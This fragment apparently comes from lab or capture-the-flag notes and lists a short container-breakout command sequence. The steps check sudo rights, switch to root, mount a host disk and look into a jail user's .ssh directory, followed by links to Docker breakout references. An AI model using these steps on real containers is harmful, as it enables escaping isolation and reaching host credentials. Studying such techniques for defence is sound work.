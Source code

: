 
082bb339ec19de4935867

```
sudo -l
su root
fdisk -l
mount /dev/vdk /mnt
cd /mnt
ls /home/jail/.ssh...
```

https://tbhaxor.com/container-breakout-part-1/

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation
